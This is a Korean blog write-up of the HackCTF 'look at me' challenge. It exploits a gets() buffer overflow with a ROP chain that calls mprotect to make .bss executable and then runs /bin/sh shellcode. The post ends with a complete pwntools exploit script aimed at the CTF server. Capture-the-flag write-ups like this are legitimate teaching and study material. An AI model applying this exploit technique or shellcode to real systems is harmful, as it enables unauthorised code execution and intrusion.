 ```yaml
---
layout: post
title:  "HackCTF look at me write-up"
date:   2020-02-03 19:45:55
image:  hackctf_lookatme.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```




### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled.png)

PIE가 안걸려있다. 또한 이번 바이너리는 32bit이다.


<br>

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%201.png)

Hellooooo를 출력하고 입력할수 있는 공간이 나온다. 아무 문자나 입력하면 바로 종료가 되버린다. 이역시 바로 코드를 살펴보자.
<br><br><br>
**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%202.png)

메인을 보면 내가 알수 있는 함수는 look_at_me 하나이다. 나머지는 확인을 해봐도 복잡하ㄱ....
<br><br>
look_at_me함수를 봐보자<br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%203.png)

엄청 단순하다. gets함수를 입력받고 끝난다. ret주소까지 덮을수 있다. 혹시 플래그를 출력해주는 함수가 있는지 아이다에서 찾아보자.<br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%204.png)

함수들이 굉장히 많은데, 그 이유는 해당 바이너리를 빌드시 라이브러리들을 동적으로 링킹해준것이 아닌, 정적으로 링킹을 해줬기 때문이다. 따라서 모든 라이브러리들이 다 보이는 것이다.<br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%205.png)

file 명령어로 확인해보면 정적 링킹이 되있다는 사실을 확인 할 수 있다. 하지만 이 많은 라이브러리들 중에 system함수가 존재하지 않는다. 대신, mprotect 함수가 존재한다.

mprotect 함수는 원하는 코드영역의 권한을 변경할 수 있는 함수이다. 다행이 해당 함수가 링킹되어있어서 이를 이용하면 될 것이다.  참고로 mprotect 함수는 아래처럼 생겼는데

    mprotect(원하는 주소, 사이즈, 권한)

여기서 원하는 주소 → 이부분은 0x1000의 배수가 되야한다. mmap에서 메모리를 할당할때 해당 크기만큼 할당해주기 때문이라 한다.


<br><br><br>
### 2. 접근방법

---

스택 영역은 aslr 때문에 주소를 구하기가 귀찮음으로 .bss 영역을 이용하자. 왜냐하면 해당 영역은 aslr이 걸려있어도 주소가 고정으로 세팅되어있기 때문이다.

따라서 ROP를 이용하여 .bss 영역에 쉘코드를 삽입하여 실행시키는 루틴으로 작업하면 된다. 대충 흐름은 다음처럼 구성하면 된다.

    1. ebp까지 더미값 채우기
    
    2. ret에 gets함수 넣기
    
    3. ret + 4에 가젯 -> pop ret -> 0x08048433
    
    4. ret + 8에 bss 주소 넣기 -> 0x080eaf80
    
    5. ret + 12에 mprotect 함수 주소 넣기 -> 0x0806e0f0
    
    6. ret + 16에 가젯 -> pop pop pop ret -> 0x080483c8
    
    7. ret + 24에 7 -> 권한
    
    8. ret + 28에 3000 -> 사이즈
    
    9. ret + 32에 bss_start 주소 -> 0x080ea000
    
    10. ret + 36에 bss주소 -> 0x080eaf80

요렇게 말이다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%206.png)

또한 참고로 mprotect 의 첫번째 인자인 주소가 0x1000의 배수가 되야 한다고 했으므로, .bss 시작주소를 인자로 주고 사이즈를 10000정도 크게 주면, 해당 범위 아무곳에 쉘코드를 집어넣으면 편하다


<br><br>
### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3017)
#p=process("./lookatme",aslr=False)
#gdb.attach(p,""" b* 0x0804889E """)

gets_addr=p32(0x804f120)
pr=p32(0x08048433)
bss=p32(0x080eaf80)
mprotect_addr=p32(0x0806e0f0)
pppr = p32(0x0806f028)
rwx=p32(7)
size=p32(10000)
bss_start=p32(0x080ea000)

shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\$
payload = "A"*28
payload +=gets_addr
payload +=pr
payload +=bss
payload +=mprotect_addr
payload +=pppr
payload +=bss_start
payload +=size
payload +=rwx
payload +=bss

p.sendlineafter("Hellooooooooooooooooooooo\n",payload)

p.sendline(shellcode)

p.interactive()
```


<br><br><br>
### 4. 몰랐던 개념

---

- mprotect 함수를 이용한 ROP